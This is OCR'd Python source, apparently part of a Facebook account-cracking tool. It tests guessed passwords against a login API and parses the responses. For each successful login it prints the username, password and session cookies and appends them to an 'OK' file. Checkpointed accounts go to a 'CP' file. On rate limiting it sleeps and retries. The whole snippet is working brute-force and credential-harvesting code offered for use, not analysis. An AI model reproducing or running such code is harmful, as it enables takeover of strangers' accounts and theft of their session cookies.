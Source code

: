 					coki = ";".join(i["name"]+"="+i["value"] for i in post.json()["session_cookies"])

					user = re.findall("c_user=(\d+)",coki)[0]

					if user in self.ok or user in self.cp:

						break

					else:

						self.ok.append(user)

						tree = Tree(" ",guide_style=f"{color_panel}")

						tree.add(f"\r{H2}{user}|{pw}{P2} ")

						tree.add(Panel(f"{H2}{coki}{P2}",style=f"{color_panel}"))

						prints(tree)

						open(f"OK/{self.hari_ini}.txt","a").write(f"{user}|{pw}|{coki}\n")

						break

				elif "User must verify their account" in post.text:

					user = post.json()["error"]["error_data"]["uid"]

					if user in self.ok or user in self.cp:

						break

					else:

						self.cp.append(user)

						tree = Tree(" ",guide_style=f"{color_panel}")

						tree.add(f"\r{K2}{user}|{pw}{P2} ")

						prints(tree)

						open(f"CP/{self.hari_ini}.txt","a").write(f"{user}|{pw}\n")

						break

				elif "Calls to this api have exceeded the rate limit. (613)" in post.text:

					prog.update(des,description=f" {H2}•{P2} crack {M2}spam{P2} {str(self.loop)}/{len(tampung)} OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}")

					prog.advance(des)

					time.sleep(30)

				else:continue

		except ConnectionError:

			time.sleep(30)

			self.metode_api(user,pwx)

		self.loop +=1

